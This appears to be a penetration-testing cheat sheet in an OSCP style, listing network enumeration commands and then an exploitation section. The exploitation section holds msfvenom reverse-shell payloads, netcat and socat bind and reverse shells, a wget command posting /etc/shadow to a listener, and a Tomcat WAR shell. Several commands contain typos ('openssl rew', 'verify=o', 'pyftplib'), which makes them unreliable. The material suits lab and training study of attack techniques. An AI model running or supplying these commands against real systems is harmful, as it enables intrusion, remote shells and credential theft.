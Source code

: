 	For email servers enumeration: host -t mx megacorpone.com
	For dns servers enumeration: host -t ns megacorpone.com
Most comprehensive wordlists available: sudo apt-get install seclists
DNS zone transfers: 
	host -l <domain name> <dns server address>
	host -l megacorpone.com ns2.megacorpone.com
dnsrecon 
	Zone transfers with dnsrecon: dnsrecon -d megacorpone.com -t axfr
dnsenum 
	Zone transfers with dnsenum: dnsenum megacorpone.com
SMB enumeration:
	sudo nbtscan -r 10.11.1.0/24
	nmap -v -p 139,445 --script=smb-vulns-ms08-067 --script-args unsafe=1 10.11.1.227
NFS enumeration:
	nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
	nmap -p 111 --script nfs* 10.11.1.72
SMTP enumeration:
	Verify existing users on a mail server: nc -nv 10.11.1.217 25
	VRFY root
	VRFY idontexist
SNMP enumeration:
	SNMP scanning: sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
	onesixtyone -c -community -i ips
	Enumerating the entire MIB tree: snmpwalk -c public -v1 -t 10.11.1.14
	Enumerating Windows users: snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25
	Enumerating running Windows processes: snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
	Enumerating open TCP ports: snmpwalk -c public 10.11.1.14 1.3.6.1.2.1.6.13.1.3
	Enumerating installed software> snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.6.3.1.2

#### 3 - Exploitation  Penetration
nc 192.168.4.49 9999
python -c 'print "A" * 5000'
msf-pattern_create -l 5000
msf-pattern_offset -l 5000 -q 31704330
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.51 LPORT=7777 -b "\x00" -f c
nc -nvlp 7777
Immunity Debugger
msfconsole
While in Linux shell: whoami/hostname/date/arp -a/route
While in Windows shell: getuid/sysinfo/ps/netstat
Responder
psexec/crackmapexec
python -m SimpleHTTPServer 80
python -m pyftplib -p 21 
nc -nvlp 8081 && wget --post-file=/etc/shadow 192.168.202.128:8081
Transfer text and binary files with nc: nc -nvlp 4444 > incoming.exe && nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
certutil -urlcache -f http://192.168.202.128/secrets.txt secrets.txt
"Remote administration" with nc: 
	Bind shell: nc -nvlp 4444 -e cmd.exe && nc -nv 10.11.0.22 4444
	Reverse shell: nc -nvlp 4444 && nc -nv 10.11.0.22 4444 -e /bin/bash
Socat:
	Bidirectional byte streams: socat TCP4-LISTEN:4444 STDOUT && socat - TCP4:10.11.0.4:4444
	Socat encrypted bind shell:
		openssl rew -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
		cat bind_shell.key bind_shell.crt > bind_shelll.pem
		socat OPENSSL-LISTEN:4444,cert=bind_shell.pem,verify=0,fork EXE C:/bin/bash
		socat - OPENSSL:10.11.0.4:4444,verify=o
Pivoting w/ meterpreter and autoroute
Reverse shell for Apache Tomcat:
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.41 LPORT=4445 -f war > shell.war
	nc -nvlp 4445
	meterpreter > migrate -N winlogon.exe
While in Windows shell: net user tomcat